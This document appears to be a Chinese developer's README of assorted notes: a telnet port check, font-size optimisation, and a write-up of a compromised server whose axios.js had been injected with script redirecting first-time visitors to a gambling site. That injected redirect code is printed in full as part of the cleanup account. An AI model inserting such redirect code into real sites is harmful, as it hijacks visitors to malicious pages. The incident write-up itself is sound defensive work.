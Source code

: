 # 使用windows检查某个远端端口是否开放
```shell script
# windows 开启Telnet 服务 命令行键入
telnet ip port
# 显示连接失败则不通，弹出空白窗口则通
```


# 字库过大优化方案
1. 可使用字蛛压缩字体库大小
>原理是通过分析页面使用的字符，生成一个只包含使用字符的字体库。
缺点是只适用于静态页面，或者不会有新字出现的页面
2. 只有常用字的字库
3. 字库采用异步加载


# 服务器被入侵网页首次访问调整到博彩网站
1. 查看cookie 发现

![](.README_images/cookie.png)

在浏览器中删除此cookie 刷新页面再次跳转，说明js被修改或注入
下载首页index.html 以及页面引入的js文件，本地访问依旧跳转，
添加如下代码，让 isfirstvisited 始终为 true，这样在排除注入代码前页面每次打开都会跳转
```javascript
  function setCookie(name, value) {
    var Days = 365 * 10;
    var exp = new Date();
    exp.setTime(exp.getTime() + Days * 24 * 60 * 60 * 1000);
    document.cookie = name + "=" + escape(value) + ";expires=" + exp.toGMTString();
  }
  setCookie('isfirstvisited', true)
```
1. 逐步注释index.html中引入的js文件，
2. 注释 axios.js 后 打开页面不再跳转，
3. 打开 axios.js 文件后发现被添加如下代码，删除后网页访问正常
```javascript
var c = document.cookie;
     if (c.indexOf('isfirstvisited=false') != -1) {
        
     }
     else {
         var d = new Date();
         d.setFullYear(d.getFullYear() + 1);
         document.cookie = 'isfirstvisited=false;expires=' + d.toGMTString();
         location = 'https://sdfhu1.com/671.html'
     }
```

服务器503 查看进程w3wp进程占用大量内存 ，设置iss应用程序池定时回收
![](.README_images/99950d90.png)